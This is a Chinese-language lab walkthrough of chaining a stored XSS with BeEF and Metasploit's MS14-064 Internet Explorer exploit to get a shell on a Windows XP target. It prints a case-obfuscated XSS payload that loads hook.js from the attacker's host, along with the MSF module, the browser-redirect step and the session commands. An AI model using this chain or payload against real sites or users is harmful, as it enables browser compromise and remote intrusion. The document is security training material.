








内网渗透
通过IE的漏洞提升我们的权限
环境
攻击机：Kali(192.168.209.138)
靶机：32位XP(192.168.209.129)
我们使用BEEF+MSF
攻击流程
我们就可以联想到使用MSF的ms14_064_ole_code_execution脚本，他可以利用IE浏览器的漏洞，这里我们配置一下属性，他会生成一个URL给我们，具体配置如下：
1 | msf5 > use exploit/windows/browser/ms14_064_ole_code_execution //使用064的脚本 |
可以看到我们的监听端口未8080，也就是我们默认的端口号。
既然我们的监听端开启了，我们就来利用BEEF欺骗吧，首先打开我们的BEEF，这里说一下我的Kali没有自带，大家一样的话呢需要安装的。
打开BEEF之后会出现下面的页面：

我们扫描一下目标网站的端口，发现开了80，打开网站，发现这么一个网址：

发现是一个小论坛，我们猜测有XSS，这个时候我们提交我们的恶意JS代码：
1 | </tExtArEa>'"><sCRiPt sRC=http://192.168.209.138:3000/hook.js></sCrIpT> |
这是一个比较广泛的用法，我们提交上去，当管理员，打开这个链接的时候，管理员会看到如下的页面：

我们的BEEF上线了：

忽略我之前测试的哪一个。
这个时候我们上线我们的MSF，http://192.168.209.138:8080
这个URL，使我们的MSF利用URL，我们使用BEEF的：Redirect Browser插件，将我们的页面强行重定向为我们的MSF页面，这个时候我们的Session就上线了：


这个时候我们使用
1 | sessions -i |
查看我们的session，如果和效果图一样，那说明我们拿到权限了，然后使用sessions 1来执行我们的shell，这个1是根据上线的ID号，从1开始排序的。
然后简单执行以下dir：


这个时候发现已经可以了，这个时候其实我们就已经达到了拿取Shell的目的。
我们还是可以配合ettercap进行劫持提权，这个留给大家自己去思考，不知道的可以参考我的关于ettercap的文章。
其实写这篇文章的过程有很多坎坷，中途XP无数次蓝屏，原因我的Windbg给搞的，希望大家多多关注。